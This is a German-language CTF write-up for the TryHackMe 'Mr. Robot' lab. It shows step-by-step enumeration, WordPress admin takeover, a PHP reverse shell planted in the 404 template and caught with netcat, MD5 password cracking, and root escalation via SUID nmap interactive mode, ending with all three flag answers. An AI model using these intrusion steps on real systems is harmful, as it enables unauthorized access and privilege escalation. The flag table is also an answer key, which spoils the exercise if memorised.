






<p align="center">
  
</p>

<p align="center">
  <b>🤖 TryHackMe Mr. Robot CTF 🤖</b>
</p>


**Hinweis**: Diese Seite wurde mit Hilfe von [DeepL](https://www.deepl.com/translator) und [Google Translate](https://translate.google.com/) ins Deutsche übersetzt.



Können wir Mr. Robot CTF hacken? Diese virtuelle Maschine ist mit **mittel** bewertet und wird uns viele nützliche Dinge beibringen.


Die Anweisungen helfen dabei, dieselben Antworten zu erhalten; es gibt Schritt-für-Schritt-Anleitungen.

Verwendete Programme:

>+ **OpenVPN** 
>+ **NMAP**
>+ **GoBuster**
>+ **Netcat**


## Anweisungen

Um mit dem Hacken dieser virtuellen Maschine zu beginnen, müssen wir uns zuerst mit TryHackMe OpenVPN verbinden und die Maschine in Aufgabe 2 ausführen. 

*Ich gehe davon aus, dass Ihre lokale virtuelle Maschine das Betriebssystem [Kali Linux](https://www.kali.org/) verwendet.*

## Verbindungsaufbau über OpenVPN

Zuerst müssen wir die Datei [OpenVPN](https://tryhackme.com/access) von TryHackMe herunterladen, die sie Ihnen geben. Schalten Sie dann das Terminal in dem Verzeichnis ein, in das Sie die OpenVPN-Datei heruntergeladen haben. Der Anschluss erfolgt über:

> ```shell
> sudo openvpn *NAME_OF_YOUR_FILE*.ovpn
> ```

## Netzwerkaufzählung

Zuerst müssen wir uns ansehen, welche Ports offen sind. Je mehr wir über das System wissen, desto besser. In diesem Fall verwenden wir Nmap, um das Netzwerk zu scannen.

### Nmap-Scan

> ```shell 
> kali@kali:~/Desktop$ nmap *IP_ADRESSE* -A
> ```    

### Ergebnis des Nmap-Scans

> ```shell
> kali@kali:-/Desktop$ nmap 10.10.51.194 -A
> Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-23 18:35 CEST
> Nmap scan report for 10.10.38.44
> Host is up (0.095s latency).
> Not shown: 997 filtered ports
> PORT    STATE  SERVICE  VERSION
> 22/tcp  closed ssh
> 80/tcp  open   http     Apache httpd
> |_http-server-header: Apache
> |_http-title: Site doesn't have a title (text/html).
> 443/tcp open   ssl/http Apache httpd
> |_http-server-header: Apache
> |_http-title: Site doesn't have a title (text/html).
> | ssl-cert: Subject: commonName=www.example.com
> | Not valid before: 2015-09-16T10:45:03
> |_Not valid after:  2025-09-13T10:45:03    
>
>
> Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
> Nmap done: 1 IP address (1 host up) scanned in 34.90 seconds
> ```

Wie wir sehen können, haben wir Port 80 geöffnet, was uns sagt, dass dies eine Website im HTTP-Protokoll ist.

### Installation von seclists

> ```shell
> sudo apt install seclists
> ```

Nach diesem Befehl wird seclists im Verzeichnis **/usr/share/seclists/** installiert.

### Verzeichnisaufzählung auf einem Webserver mit gobuster

> ```shell
> kali@kali:~/Desktop$ gobuster dir -u http://10.10.51.194/ -w /usr/share/seclists/Discovery/Web-Content/common.txt
> ===============================================================
> Gobuster v3.1.0
> by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
> ===============================================================
> [+] Url:                     http://10.10.51.194/
> [+] Method:                  GET
> [+] Threads:                 10
> [+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/common.txt
> [+] Negative Status codes:   404
> [+] User Agent:              gobuster/3.1.0
> [+] Timeout:                 10s
> ===============================================================
> 2021/05/23 18:27:45 Starting gobuster in directory enumeration mode
> ===============================================================
> /.hta                 (Status: 403) [Size: 213]
> /.htaccess            (Status: 403) [Size: 218]
> /.htpasswd            (Status: 403) [Size: 218]
> /0                    (Status: 301) [Size: 0] [--> http://10.10.51.194/0/]
> /Image                (Status: 301) [Size: 0] [--> http://10.10.51.194/Image/]
> /admin                (Status: 301) [Size: 234] [--> http://10.10.51.194/admin/]
> /atom                 (Status: 301) [Size: 0] [--> http://10.10.51.194/feed/atom/]
> /audio                (Status: 301) [Size: 234] [--> http://10.10.51.194/audio/]  
> /blog                 (Status: 301) [Size: 233] [--> http://10.10.51.194/blog/]   
> /css                  (Status: 301) [Size: 232] [--> http://10.10.51.194/css/]    
> /dashboard            (Status: 302) [Size: 0] [--> http://10.10.51.194/wp-admin/] 
> /favicon.ico          (Status: 200) [Size: 0]                                     
> /feed                 (Status: 301) [Size: 0] [--> http://10.10.51.194/feed/]     
> /images               (Status: 301) [Size: 235] [--> http://10.10.51.194/images/] 
> /image                (Status: 301) [Size: 0] [--> http://10.10.51.194/image/]    
> /index.php            (Status: 301) [Size: 0] [--> http://10.10.51.194/]          
> /index.html           (Status: 200) [Size: 1188]                                  
> /js                   (Status: 301) [Size: 231] [--> http://10.10.51.194/js/]     
> /intro                (Status: 200) [Size: 516314]                                
> /license              (Status: 200) [Size: 309]                                   
> /login                (Status: 302) [Size: 0] [--> http://10.10.51.194/wp-login.php]
> /page1                (Status: 301) [Size: 0] [--> http://10.10.51.194/]            
> /phpmyadmin           (Status: 403) [Size: 94]                                               
> /readme               (Status: 200) [Size: 64]                                               
> /rdf                  (Status: 301) [Size: 0] [--> http://10.10.51.194/feed/rdf/]            
> /robots               (Status: 200) [Size: 41]                                               
> /robots.txt           (Status: 200) [Size: 41]                                               
> /rss                  (Status: 301) [Size: 0] [--> http://10.10.51.194/feed/]                
> /rss2                 (Status: 301) [Size: 0] [--> http://10.10.51.194/feed/]                
> /sitemap              (Status: 200) [Size: 0]                                                
> /sitemap.xml          (Status: 200) [Size: 0]                                                
> /video                (Status: 301) [Size: 234] [--> http://10.10.51.194/video/]             
> /wp-admin             (Status: 301) [Size: 237] [--> http://10.10.51.194/wp-admin/]          
> /wp-content           (Status: 301) [Size: 239] [--> http://10.10.51.194/wp-content/]
> /wp-config            (Status: 200) [Size: 0]                                        
> /wp-includes          (Status: 301) [Size: 240] [--> http://10.10.51.194/wp-includes/]
> /wp-cron              (Status: 200) [Size: 0]                                         
> /wp-links-opml        (Status: 200) [Size: 227]                                       
> /wp-load              (Status: 200) [Size: 0]                                         
> /wp-login             (Status: 200) [Size: 2606]                                      
> /wp-mail              (Status: 500) [Size: 3064]                                      
> /wp-settings          (Status: 500) [Size: 0]                                         
> /wp-signup            (Status: 302) [Size: 0] [--> http://10.10.51.194/wp-login.php?action=register]
> /xmlrpc               (Status: 405) [Size:42]                                                      
> ===============================================================
> 2021/05/23 18:40:33 Finished
> ===============================================================
> ```


## Suche nach dem ersten Schlüssel

Nach der Aufzählung können wir weitere Verzeichnisse sehen, die sich auf diesem Webserver befinden. Wenn wir uns den TryHackMe-Hinweis für den ersten Schlüssel ansehen, können wir sehen, dass unser Hinweis **robots.txt** ist. Ich denke, dieser Hinweis **/robots** Verzeichnis sind verwandt. Daneben interessiere ich mich für **/wp-login**; Ich denke, es ist WordPress.

Aufruf der Seite **Geben Sie die erhaltene IP-Adresse in Ihren Webbrowser ein**:

<p align="center">
   
</p>

Aber wenn wir unseren Link **/robots.txt (IP_ADDRESS/robots.txt)** eingeben, können wir sehen, dass er den ersten Schlüssel auswirft, der im .txt-Format vorliegt.
      
<p align="center">
   
</p>

Wir haben zwei Dateien gefunden, eine **fsociety.dic** und **key-1-of-3.txt**. Die erste Datei sieht aus wie eine Wörterbuchdatei.

### Herunterladen des ersten Schlüssels

Wir können den ersten Schlüssel sehen, indem wir die Seite eingeben (http://IP_ADRESSE/key-1-of-3.txt), aber wir können ihn auch mit dem Befehl **curl** herunterladen.

> ```shell
> curl -s http://IP_ADRESSE/key-1-of-3.txt
> ```

### Ergebnis

> ```shell
> kali@kali:~/Desktop$ curl -s http://10.10.51.194/key-1-of-3.txt
>
> 073403c8a58a1f80d943455fb30724b9
> ```
   
**Erster Schlüssel:** `073403c8a58a1f80d943455fb30724b9`

## Finden des zweiten Schlüssels

**HINWEIS:** Weißer Text.

Wenn wir zurück zu **gobuster** gehen, können wir sehen, dass wir **WordPress**-Verzeichnisse hatten. Ich interessiere mich speziell für:

> ```shell
> /login (Status: 302)
> /wp-content (Status: 301)
> /admin (Status: 301)
> /wp-login (Status: 200)
> /license (Status: 200)
> /wp-includes (Status: 301)
> ```
 
Wie wir sehen können, hat das Verzeichnis **/license** den Status 200. Status 200 sagt uns, dass die Seite aktiv ist. **Curl** ist in diesem Fall unser bester Freund.

### Curl-Befehl

> ```shell
> curl -s http://IP_ADDRESS/license | tr -d "\n"
> ```

### Ergebnis

> ```shell
> kali@kali:~/Desktop$ curl -s http://10.10.51.194/license | tr -d "\n"
>     
> what you do just pull code from Rapid9 or some s@#% since when did you become a script kitty?do you want a    password or something?
>
> ZWxsaW90OkVSMjgtMDY1Mgo=
> ```

Der spezifische Text ist `ZWxsaW90OkVSMjgtMDY1Mgo=` sieht aus wie **base64**.

### Base64 entschlüsseln

Der Befehl, den wir verwenden werden, lautet:

> ```shell
> echo "ZWxsaW90OkVSMjgtMDY1Mgo=" | base64 -d
> ```
     
### Ergebnis der Base64-Entschlüsselung

> ```shell
> kali@kali:~/Desktop$ echo "ZWxsaW90OkVSMjgtMDY1Mgo=" | base64 -d
>
> elliot:ER28-0652
> ```
   
Wir haben den Benutzernamen und das Passwort, denke ich, von WordPress.

   
**Interessante Tatsache: ** Der Code ist ein Verweis auf Elliots Nummer aus dem Personalausweis bei der Arbeit und taucht in der Serie auf.


### WordPress-Aufzählung

Es ist an der Zeit, sich bei WordPress anzumelden:

Der erste Schritt ist zu gehen:

> ```shell
> http://IP_ADDRESS/wp-login
> ```

Nachdem wir uns sofort auf der Seite in der unteren linken Ecke angemeldet haben, sehen wir, dass die WordPress-Version 4.3.1 ist. Dies ist eine alte Version von WordPress.

<p align="center">
   
</p>

Wir finden zwei Benutzer, von denen Elliot (wir) der Administrator ist.

<p align="center">
   
</p>

Wir können sehen, dass diese alte Version von WordPress anfällig für **PHP Reverse Shell**, [**LINK DES SKRIPTS**](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php)

Da wir ein Administrator sind, müssen wir zum Aussehen gehen.

<p align="center">
   
</p>

Wir müssen den Code durch das Skript auf der 404-PHP-Vorlage ersetzen. 

<p align="center">
   
</p>


**Hinweis:** Achten Sie auf die IP-Adresse im Code; hier haben wir die lokale IP-Adresse, dh. Die IP-Adresse unseres Computers. Wir können die lokale IP-Adresse mit `ifconfig` überprüfen.


### PHP reverse shell über netcat

Nachdem wir die IP-Adresse im Skript ersetzt und geändert haben, führen wir **Netcat** auf dem Port aus, der über das Skript eine Verbindung zu uns herstellt. Das machen wir mit folgendem Befehl:

> ```shell
> nc -nlvp 1234
> ```

Danach müssen wir im Webbrowser auf die **http://IP_ADRESSE/404.php** diesen Link gehen.

<p align="center">
   
</p>

Wie wir sehen können, haben wir die Shell im Terminal geöffnet. Netcat bekam die Verbindung.

Wir werden nun prüfen, welche Dateien sich im Verzeichnis **/home/robot** befinden. Das machen wir mit dem Befehl:

> ```shell
> ls -l /home/robot
> ```

Wir kennen jetzt die Position des zweiten Schlüssels:

> ```shell
> $ ls -l /home/robot
> total 8
> -r-------- 1 robot robot 33 Nov 13  2015 key-2-of-3.txt
> -rw-r--r-- 1 robot robot 39 Nov 13  2015 password.raw-md5
> ```

Das Problem ist, dass wir überhaupt kein "Roboter"-Benutzer auf dieser Maschine sind. Wir überprüfen dies mit dem `whoami`-Befehl.

> ```shell
> $ whoami
> daemon
> ```

Die einzige Datei, die wir sehen können, ist `password.raw-md5`. Mal sehen, was in dieser Datei ist.

> ```shell
> $ cat /home/robot/password.raw-md5
> robot:c3fcd3d76192e4007dfb496cca67e13b
> ```

### MD5-Hash entschlüsseln

Es ist MD5-Hash. Ein Hash ist eine mathematische Funktion, die nicht zurückgegeben werden kann, nachdem sie ihre Aufgabe erledigt hat. Dies ist gut zum Speichern von Passwörtern, aber MD5 ist ein alter Algorithmus und leicht zu knacken.

Wir werden zunächst prüfen, ob dieser Hash online geknackt werden kann, um Zeit zu sparen. [Verknüpfung](https://md5.gromweb.com/?md5=c3fcd3d76192e4007dfb496cca67e13b)

Wie wir auf dem obigen Link sehen können, ist dies möglich. **Das Passwort** ist `abcdefghijklmnopqrstuvwxyz`
   
Jetzt müssen wir uns als `robot`-Benutzer anmelden. Das machen wir mit folgendem Befehl:

> ```shell
> su - robot
> ```

Aber es gibt ein Problem:

> ```shell
> $ su - robot
> su: must be run from a terminal
> ```

### Python Shell

Dies kann mit Python behoben werden. Zuerst müssen wir prüfen, ob Python überhaupt installiert ist.

> ```shell
> $ which python
> /usr/bin/python
> ```

Lassen Sie uns eine Shell mit Python erstellen. Das können wir mit diesem Befehl machen:

> ```shell
> python -c 'import pty; pty.spawn("/bin/sh")'
> ```

Wie Sie sehen können, hat das Terminal keine Fehler angezeigt, was bedeutet, dass wir erfolgreich eine Shell in Python erstellt haben.

Melden wir uns als Benutzer `robot` an.

> ```shell
> $ su - robot           
> su - robot
> Password: abcdefghijklmnopqrstuvwxyz
>
> $ whoami
> whoami
> robot
> $ 
> ```
      
Wie wir sehen können, sind wir als `robot`-Benutzer angemeldet. 

### Zweiter Schlüssel

Um den zweiten Schlüssel anzuzeigen, müssen wir den cat-Befehl verwenden:

> ```shell
> cat key-2-of-3.txt
> ```

Ergebnis:

> ```shell
> $ cat key-2-of-3.txt
> cat key-2-of-3.txt
> 822c73956184f694993bede3eb39f959
> ```

**Zweiter Schlüssel:** `822c73956184f694993bede3eb39f959`

   

## Finden des dritten Schlüssels

**HINWEIS:** NMAP
   
Wenn wir zurück zum Nmap-Ergebnis gehen, das wir am Anfang erhalten haben; Wir können sehen, dass der SSH-Port geschlossen ist. Der endgültige Schlüssel befindet sich meistens im `/root`-Verzeichnis. Um root zu werden, müssen wir eine Privilegieneskalation durchführen. Als erstes interessiert mich, ob der Benutzer `robot` in der sogenannten sudo-Gruppe ist.

### Privilegieneskalation

Ist der Benutzer robot in der sudo-Gruppe?

> ```shell
> $ sudo -l
> sudo -l
> [sudo] password for robot: abcdefghijklmnopqrstuvwxyz
>
> Sorry, user robot may not run sudo on linux.
> ```

Der Benutzer robot ist nicht auf der Liste mit sudo-Berechtigungen. Jetzt können wir sehen, welche Programme sich unter dem Benutzer `root` befinden.

#### Überprüfen von SETUID, die unter Root-Kontrolle stehen:

Befehl:

> ```shell
> find / -user root -perm -4000 -print 2>/dev/null
> ```

Ausgabe:

> ```shell
> $ find / -user root -perm -4000 -print 2>/dev/null
> / -user root -perm -4000 -print 2>/dev/null
> /bin/ping
> /bin/umount
> /bin/mount
> /bin/ping6
> /bin/su
> /usr/bin/passwd
> /usr/bin/newgrp
> /usr/bin/chsh
> /usr/bin/chfn
> /usr/bin/gpasswd
> /usr/bin/sudo
> /usr/local/bin/nmap
> /usr/lib/openssh/ssh-keysign
> /usr/lib/eject/dmcrypt-get-device
> /usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
> /usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
> /usr/lib/pt_chown
> ```

Mir ist sofort `/usr/local/bin/nmap` aufgefallen. Mal sehen, welche Version von Nmap es ist.

#### Überprüfung der Nmap-Version: 

Befehl: 

> ```shell 
> nmap --version
> ```

Ausgabe:

> ```shell
> $ nmap --version
> nmap --version
>
> nmap version 3.81 ( http://www.insecure.org/nmap/ )
> ```

Wie wir sehen können, ist die Nmap-Version **3.81**.

#### Aufzählung:

Nach ein wenig Recherche fand ich heraus:

[Verknüpfung](https://pentestlab.blog/category/privilege-escalation/) Wie wir unter dem obigen Link lesen können, handelt es sich um eine ältere Nmap-Version. Versionen von 2.02 bis 5.21 hatten die sog. Der interaktive Modus ermöglichte es uns, Befehle auszuführen. Darüber hinaus ermöglicht uns die Überprüfung von `SETUID`, Befehle als root auszuführen.

> ```shell
> $ ls -l /usr/local/bin/nmap
> ls -l /usr/local/bin/nmap
> -rwsr-xr-x 1 root root 504736 Nov 13  2015 /usr/local/bin/nmap
> ```

#### Nmap im interaktiven Modus starten:

Befehl:

> ```shell
> nmap --interactive
> ```

Ausgabe: 

> ```shell
> $ nmap --interactive
> nmap --interactive
>
> Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
> Welcome to Interactive Mode -- press h <enter> for help
> nmap> !whoami
> !whoami
> root
> waiting to reap child : No child processes
> ```

Wir sehen, dass sich Nmap im interaktiven Root-Modus befindet.

#### Suche nach dem letzten Schlüssel:

Wir werden zuerst prüfen, ob sich das dritte Flag in der Wurzel befindet.

Befehl:

> ```shell
> !ls /root
> ```

Ausgabe:

> ```shell
> nmap> !ls /root
> !ls /root
> firstboot_done  key-3-of-3.txt
> waiting to reap child : No child processes
> ```
      
Wir haben den dritten Schlüssel gefunden, der sich in der Textdatei befindet. Wir können den Inhalt mit dem folgenden Befehl lesen:

> ```shell
> !cat /root/key-3-of-3.txt
> ```

> ```shell
> nmap> !cat /root/key-3-of-3.txt
> !cat /root/key-3-of-3.txt
> 04787ddef27c3dee1ee161b21670b4e4
> waiting to reap child : No child processes
> ```

**Dritter Schlüssel:** `04787ddef27c3dee1ee161b21670b4e4`

## Fazit

Interessantes CTF mit vielen Anspielungen auf die Serie. Ich habe viel gelernt, und das Wichtigste ist, Betriebssysteme und Anwendungen regelmäßig zu aktualisieren, wie wir im Beispiel mit der älteren Version von `Nmap` und `WordPress` sehen. Erlauben Sie außerdem niemandem, Ihre Konten zu hacken, ändern Sie die Codes regelmäßig und verwenden Sie für jedes Konto Zufallscodes mit einer Mindestlänge von 32 Ziffern. Jeder sollte einem Passwort, einem Konto und einer E-Mail-Adresse folgen.

## Schlüssel

Liste der Fragen und Antworten:

> | Fragen | Antworten |
> | ------ | --------- |
> | Was ist Schlüssel 1?  | <kbd> 073403c8a58a1f80d943455fb30724b9 </kbd>|
> | Was ist Schlüssel 2?  | <kbd> 822c73956184f694993bede3eb39f959 </kbd> |
> | Was ist Schlüssel 3? | <kbd> 04787ddef27c3dee1ee161b21670b4e4 </kbd> |

## Vielen Dank für Ihre Zeit 💙

